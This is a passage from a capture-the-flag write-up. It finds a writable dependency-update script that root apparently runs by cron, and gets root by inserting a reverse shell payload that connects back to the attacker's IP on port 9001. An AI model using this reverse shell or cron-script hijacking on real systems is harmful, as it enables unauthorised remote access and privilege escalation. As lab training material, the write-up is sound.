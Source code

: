 ```bash
  0) echo "Branch 0";;
  1) echo "Branch 1";;
  2) echo "Branch 2";;
esac
/home/jeffrey/.deped/deped.sh
fruits=("apple" "banana" "cherry" "date" "elderberry")

for fruit in "${fruits[@]}"; do
  echo "I like $fruit"
done

echo "3 * 5 + 7 = $(echo "3 5 7" | awk '{print $1 * $2 + $3}')"

curl --silent https://worldtimeapi.org/api/timezone/Europe/London.txt | grep "datetime"

ps aux

find / -type f -mtime -1 2>/dev/null
```

On analyzing we came to conclusion that this is entirely rubbish code, except **line 33** 
`/home/jeffrey/.deped/deped.sh` 

If their is dependencies updating script, there must me a cronjobs running it.
[![Pasted-image-20230301151853.png](https://i.postimg.cc/qv078GjC/Pasted-image-20230301151853.png)](https://postimg.cc/MvPxw1kW)

If its not ran by jeffrey, then possible root is running it. Lets find `deped.sh` file, and check wether its writeable or not

[![Pasted-image-20230301151337.png](https://i.postimg.cc/65C32PLX/Pasted-image-20230301151337.png)](https://postimg.cc/rKFc7QPn)

Yes it is writeable, lets make it run our reverse shell payload (again use revshell).
Payload that I am using:
```bash
sh -i >& /dev/tcp/10.11.27.117/9001 0>&1
```

[![Pasted-image-20230301151642.png](https://i.postimg.cc/sfkx2zWm/Pasted-image-20230301151642.png)](https://postimg.cc/F1xNP2Dk)

Setup your listener for getting the shell

[![Pasted-image-20230301152034.png](https://i.postimg.cc/3wfJQQ7g/Pasted-image-20230301152034.png)](https://postimg.cc/wtJdDP1v)


**WOOT WOOT!! SOMEONE IS THE ROOT!!**

Lets get the flag
[![Pasted-image-20230520110422.png](https://i.postimg.cc/GmrfPXVY/Pasted-image-20230520110422.png)](https://postimg.cc/JG6KM514)
